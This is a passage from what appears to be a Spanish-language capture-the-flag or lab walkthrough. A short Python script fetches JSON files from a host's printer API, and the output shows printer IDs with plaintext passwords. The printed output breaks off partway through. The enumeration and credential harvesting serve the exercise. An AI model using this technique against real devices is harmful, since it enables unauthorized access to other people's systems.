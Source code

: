 Veremos que nos ha encontrado estas impresoras, por lo que vamos a investigar que contiene cada una de ellas.

> viewJSON.py

```python
# view_jsons.py
import requests
import json

URLS = [
    "http://<IP>/api/printers/printer1.json",
    "http://<IP>/api/printers/printer2.json",
    "http://<IP>/api/printers/printer3.json",
    "http://<IP>/api/printers/printer4.json",
    "http://<IP>/api/printers/printer5.json",
    "http://<IP>/api/printers/printer1599.json",
]

TIMEOUT = 5

def mostrar_json(url):
    try:
        r = requests.get(url, timeout=TIMEOUT)
        r.raise_for_status()
        data = r.json()  # convierte en dict
        print(f"\n===== {url} =====")
        print(json.dumps(data, indent=4, ensure_ascii=False))  # formatea bonito
    except Exception as e:
        print(f"[!] Error con {url}: {e}")

if __name__ == "__main__":
    for url in URLS:
        mostrar_json(url)
```

Lo ejecutaremos de esta forma:

```shell
python3 viewJSON.py
```

Info:

```json
===== http://192.168.5.86/api/printers/printer1.json =====
{
    "printer": {
        "printer_id": "1",
        "printer_password": "P4ssw0rd!"
    }
}

===== http://192.168.5.86/api/printers/printer2.json =====
{
    "printer": {
        "printer_id": "2",
        "printer_password": "iloveme"
    }
}

===== http://192.168.5.86/api/printers/printer3.json =====
{
    "printer": {
        "printer_id": "3",
        "printer_password": "qwerty"
    }
```